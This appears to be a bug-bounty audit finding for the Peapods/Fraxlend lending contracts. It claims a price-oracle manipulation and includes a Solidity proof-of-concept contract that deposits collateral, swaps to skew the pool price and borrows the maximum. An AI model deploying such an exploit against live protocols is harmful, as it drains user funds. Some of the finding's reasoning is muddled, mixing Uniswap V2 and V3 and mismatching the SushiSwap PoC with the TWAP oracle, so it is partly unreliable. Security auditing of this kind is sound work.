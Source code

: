 Young Foggy Ostrich

High

# Attacker will manipulate oracle prices

### Summary

The prices obtained by the DualOracleChainlinkUniV3.sol price oracle can be manipulated.

### Root Cause

In the DualOracleChainlinkUniV3.sol contract function specifically getPrices() will tend to prioritize the price of the UniswapV3 pair by the oracleDelay

### Internal Pre-conditions

A user who detects that the update time of maxOracleDelay returns in the getPrices function "_isBadData"

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/oracles/dual-oracles/DualOracleChainlinkUniV3.sol#L138-L150

### External Pre-conditions

If maxOracleDelay is greater than the parameter created in the getPrices() constructor, it will use the data returned by the UniswapV3 pool as the oracle price.

### Attack Path

1. An attacker monitors the DualOracleChainlinkUniV3.sol contract hoping that the contract will detect that


https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/oracles/dual-oracles/DualOracleChainlinkUniV3.sol#L138-L150

returns _isBadData.

2. Since the contract now prioritizes the price returned by the UniswapV2 Pool quote, it can manipulate the pool to get the price based on the quote that the attacker wants.

This is because of this function

[function getPrices() external view returns (bool _isBadData, uint256 _priceLow, uint256 _priceHigh) {
address[] memory _pools = new address[](1);
_pools[0] = UNI_V3_PAIR_ADDRESS;
uint256 _price1 = IStaticOracle(0xB210CE856631EeEB767eFa666EC7C1C57738d438).quoteSpecificPoolsWithTimePeriod(
 ORACLE_PRECISION, BASE_TOKEN, QUOTE_TOKEN, _pools, TWAP_DURATION
 );
 uint256 _price2;
 (_isBadData, _price2) = _getChainlinkPrice();

 // If bad data return price1 for both, else set high to higher price and low to lower price
 _priceLow = _isBadData || _price1 < _price2 ? _price1 : _price2;
 _priceHigh = _isBadData || _price1 > _price2 ? _price1 : _price2;
 }](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/oracles/dual-oracles/DualOracleChainlinkUniV3.sol#L138-L150)

3. 3. The attacker makes a deposit of tokens in the FraxlendPairCore.sol contract by calling the following function

[function deposit(uint256 _amount, address _receiver)](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPairCore.sol#L624-L641)

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPairCore.sol#L578-L612

4. The attacker makes a swap of the pool where the deposit was made to manipulate the funds so that the price returned by the quote is in his favor.

5. The attacker makes a borrow with many tokens that have the manipulated price

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPairCore.sol#L903-L928

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPairCore.sol#L863-L895

### Impact

The FraxlendPair.sol contract may suffer huge losses due to oracle manipulation.

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPair.sol

This may result in loss of user funds and leave the protocol insolvent.


### PoC

solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint amount) external returns (bool);
}

interface CORE {
    function deposit(uint256 _amount, address _receiver) external;
    function borrowAsset(uint256 _borrowAmount, uint256 _collateralAmount, address _receiver) external;
}

interface ISushiSwapRouter {
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);

    function getAmountsOut(
        uint amountIn, 
        address[] calldata path
    ) external view returns (uint[] memory amounts);
}

contract SushiSwapExecutor { 
    address private constant PAIR_SWAP_ROUTER_ADDRESS = 0x0000000000000000000000000000000000000000; // Put the address
    address public coreContractAddress = 0x0000000000000000000000000000000000000000; //Put the address
    address public owner;

    ISushiSwapRouter public sushiSwapRouter;

    constructor() {
        owner = msg.sender;
        sushiSwapRouter = ISushiSwapRouter(PAIR_SWAP_ROUTER_ADDRESS);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Not contract owner");
        _;
    }

    // Fetch token balance of any token for the owner of this contract
    function getTokenBalance(address tokenAddress) public view returns (uint256) {
        IERC20 token = IERC20(tokenAddress);
        return token.balanceOf(address(this));
    }

    // Approve tokens for swapping on SushiSwap
    function approveToken(address aquien, address tokenAddress, uint256 amount) public onlyOwner {
        IERC20 token = IERC20(tokenAddress);
        token.approve(aquien, amount);
    }

    function attack(address tokenA, address tokenB) public onlyOwner{
        CORE core = CORE(coreContractAddress);

        approveToken(coreContractAddress, tokenA, type(uint256).max);

        uint256 total = IERC20(tokenA).balanceOf(address(this)) / 2;

        core.deposit(total, address(this));

        executeSwap(address(this), tokenA, tokenB);

        core.borrowAsset(type(uint256).max, total, address(this));
    }

    // Execute swap on SushiSwap from USDT to WETH
    function executeSwap(address aquien, address tokenAddress, address totoken) public onlyOwner {
        IERC20 token = IERC20(tokenAddress);
        // Approve SushiSwap to spend USDT
        approveToken(aquien, tokenAddress, token.balanceOf(address(this)));

        // Path for the swap: USDT -> WETH
        address[] memory path = new address[](2);
        path[0] = tokenAddress;
        path[1] = totoken;

        // Calculate amountOutMin (with 5% slippage)
        uint[] memory amountsOut = sushiSwapRouter.getAmountsOut(token.balanceOf(address(this)), path);
        uint amountOutMin = amountsOut[1] * 95 / 100; // 5% slippage

        // Perform the swap
        sushiSwapRouter.swapExactTokensForTokens(
            token.balanceOf(address(this)),
            amountOutMin,
            path,
            address(this),
            block.timestamp + 1200 // 20-minute deadline
        );
    }

    function withdrawETH() external onlyOwner {
        uint256 contractBalance = address(this).balance;
        payable(msg.sender).transfer(contractBalance);
    }

    // Withdraw tokens from the contract
    function withdrawTokens(address tokenAddress) external onlyOwner {
        IERC20(tokenAddress).transfer(msg.sender, IERC20(tokenAddress).balanceOf(address(this)));
    }


    receive() external payable {}

    fallback() external payable {}
}

### Mitigation

Use a wide range of maxOracleDelay and avoid using a Uniswap V3 V2 pair, etc. as a price oracle. Because in these cases it is very easy to manipulate prices by interacting with the pair.

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/oracles/dual-oracles/DualOracleChainlinkUniV3.sol

